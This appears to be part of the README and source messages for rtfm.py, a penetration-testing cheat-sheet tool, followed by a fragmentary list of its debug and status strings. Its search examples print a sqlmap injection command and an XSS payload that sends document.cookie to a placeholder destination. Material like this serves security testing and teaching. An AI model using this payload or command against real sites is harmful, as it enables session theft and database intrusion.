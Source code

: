 Any other time, one of t'other flags for other things;

-c is search for a command. Use this when you know what command you want to look for, but can't quite remember the syntax. For example, if you want to quickly look up the syntax for a common sqlmap command. Useful for jumping straight to collections of common flags or one liners:
```
19:54:root:rtfm: ./rtfm.py -pP -c 'sqlmap' 
+----------------+--------------------------------------------------------------------------------------------------+
| Added By @yght | Cmd ID : 162                                                                                     |
+----------------+--------------------------------------------------------------------------------------------------+
| Command        | /opt/sqlmap/sqlmap.py --exclude-sysdbs --eta --is-dba  --current-user --current-db --hostname -o |
|                | -r sql1.txt                                                                                      |
|                |                                                                                                  |
| Comment        | SQLmap generic command                                                                           |
| Tags           | sql injection                                                                                    |
| Date added     | 2017-06-19                                                                                       |
| References     | https://github.com/sqlmapproject/sqlmap/wiki/Usage                                               |
+----------------+--------------------------------------------------------------------------------------------------+
```

-t is search for a tag, tags are groups of similar commands, for example, XSS payloads. Use this when wanting a more generic search such as around flaws or around generic Windows commands:
```
19:54:root:rtfm: ./rtfm.py -pP -t xss
+----------------+------------------------------------------------------------------------------------+
| Added By Innes | Cmd ID : 35                                                                        |
+----------------+------------------------------------------------------------------------------------+
| Command        | <script>i = new XMLHttpRequest(); i.open('GET', '[dest]' + document.cookie, true); |
|                | i.send();</script>                                                                 |
|                |                                                                                    |
| Comment        | Grab the cookie                                                                    |
| Tags           | web application                                                                    |
|                | XSS                                                                                |
|                | cookies                                                                            |
| Date added     | 2017-06-19                                                                         |
| References     | https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet                     |
|                | https://excess-xss.com/                                                            |
+----------------+------------------------------------------------------------------------------------+
<snip>
```


[DEBUG]: Options Set: {'insert': None, 'remark': 'help', 'printer': None, 'dump': None, 'author': 'innes', 'cmd': 'rtfm', 'update': None, 'debug': True, 'tag': 'linux', 'date': '2017-05-10', 'delete': None, 'refer': None}
[DEBUG]: S: SELECT c.cmdid, c.cmd, c.cmnt, c.date, c.author, group_concat(DISTINCT tc.tag), group_concat(DISTINCT ref) FROM tblcommand c JOIN tbltagmap tm ON tm.cmdid = c.cmdid JOIN tbltagcontent tc ON  tc.tagid = tm.tagid JOIN tblrefmap rm ON rm.cmdid = c.cmdid JOIN tblrefcontent rc on rc.id = rm.refid WHERE c.cmd LIKE ?  AND c.cmnt LIKE ?  AND c.author LIKE ?  AND c.date = ? GROUP BY c.cmdid  HAVING  group_concat(tc.tag) like ? 
[DEBUG]: W: ['%rtfm%', '%help%', '%innes%', '2017-05-10', '%linux%']
[DEBUG]: This Returned : [(1, 'rtfm.py -c [command] -t [tag],[tag] -C [comment] -p P', 'Helpception, search for a command with two tags and a comment', '2017-05-10', 'Innes', 'linux', 'https://github.com/leostat/rtfm,https://necurity.co.uk/osprog/2017-02-27-RTFM-Pythonized/index.html')]
[WARNING]: No DB, please run rtfm -u
[OK]: This may appear to hang. Run with debug to get more info
[OK]: Program version information:
[OK]: Your up to date :
[OK]: Added Rows :1
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: Added a new Ref and a refmap
[OK]: Added Refs
[OK]: Hopefully added lots of new commands
[OK]: Parsed Line of update
[OK]: Hopefully fixed lots of commands
[OK]: Update complete
[OK]: Added Rows :1
[OK]: Added tags
[OK]: Added tags
[OK]: Added a new Ref and a refmap
[OK]: Added Rows : 2
[OK]: New Top ID : 491 | Number of CMD's Added : 2
[OK]: Added tags
[OK]: Added a new tag and a tagmap
[OK]: Added a new Ref and a refmap
[OK]: This tags everything without tags,  mainly for DB init
[OK]: Enter blank line to commit changes
[WARNING]: Number left :22
[OK]: Command ID : 467
[OK]:         Command    : Test Command
[OK]:         Comment    : My comment
[OK]: v These are known tags